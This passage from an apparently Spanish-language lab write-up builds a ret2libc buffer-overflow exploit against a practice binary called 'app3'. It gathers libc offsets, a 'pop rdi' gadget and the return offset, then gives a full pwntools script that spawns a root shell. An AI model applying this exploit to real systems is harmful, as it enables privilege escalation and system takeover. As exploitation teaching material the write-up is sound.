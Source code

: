 Para sacar el offset de la cadena "/bin/sh" ejecutamos `strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"` (esto lista todas las cadenas de texto definidas en libc y filtra por "/bin/sh"):

![image](https://github.com/user-attachments/assets/2fbb577d-68c4-456b-861f-2e7499d36284)

Vemos que el offset es 0x196031.

Ahora ya tenemos los offsets de system() y "/bin/sh". Pero si queremos pasar "/bin/sh" como parámetro a system() en el buffer overflow, tenemos que meter en el registro RDI un puntero a la cadena "/bin/sh" (que sería la dirección de libc más el offset de "/bin/sh"), y para meter ese valor en RDI necesitamos encontrar dentro del binario app3 una instrucción pop rdi, para meter un valor del stack en el RDI. Para buscarlo hacemos `ropper --file ./app3 --search "pop rdi"`:

![image](https://github.com/user-attachments/assets/927e1890-8d9e-4b1c-8df8-3591a59bec98)

Vemos que en la dirección 0x000000000040116a están las instrucciones pop rdi; nop; pop rbp; ret; 

Solo queda saber una cosa, el offset en el que sobrescribimos el EIP. Generamos un patrón de 500 bytes y ejecutamos con GDB el binario app3: `gdb app3`, y lo ejecutamos `run`. Y cuando nos pida el input ponemos el patrón y veremos esto:

![image](https://github.com/user-attachments/assets/5c191195-dfd7-43fe-8417-e9245e2484e5)

La dirección de retorno vale 0x3235613135613035. Para pasarlo a texto hacemos `unhex 3235613135613035 | rev`. Sale que es 50a51a52. Entonces hacemos `pattern.py -m offset -v 50a51a52` y nos dice que el offset es 136.

Ahora ya tenemos todo lo necesario para hacer el exploit que nos de una shell como root:

```
#!/usr/bin/python3

from pwn import *

libc_base_addr = 0x00007ffff7ddd000 # ldd app3

system_offset = 0x000000000004c490 # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep "system"
system_addr = libc_base_addr + system_offset

binsh_offset = 0x196031 # strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
binsh_addr = libc_base_addr + binsh_offset

pop_rdi_addr = 0x000000000040116a # ropper --file app3 --search "pop rdi"

payload = b'A' * 136 + p64(pop_rdi_addr) + p64(binsh_addr) + b'R' * 8 + p64(system_addr)

proc = process("./app3")

proc.sendlineafter(b's:', payload)

proc.interactive()
```

Calculamos las direcciones de la funcións system() y la cadena "/bin/sh". Creamos el payload que sean 136 bytes de relleno más la dirección que apunta a pop rdi; nop; pop rbp; ret;, que meterá en el RDI el primer valor del stack que es la dirección de binsh ya que hemos sobrescrito el stack a partir de los 136 bytes. Luego 8 bytes de relleno ya que recordemos que la dirección a pop_rdi, tiene luego la instrucción pop_rbp, por lo que va a meter nuestro siguiente valor en el registro RBP, y como no nos interesa que meta la dirección a system() en el RBP, metemos 8 bytes de relleno que serán los que se metán en el RBP. Y finalmente la dirección de system(), que cuando se salte a esta dirección como el RDI será un puntero a "/bin/sh", se nos ejecutará una /bin/sh  como root.
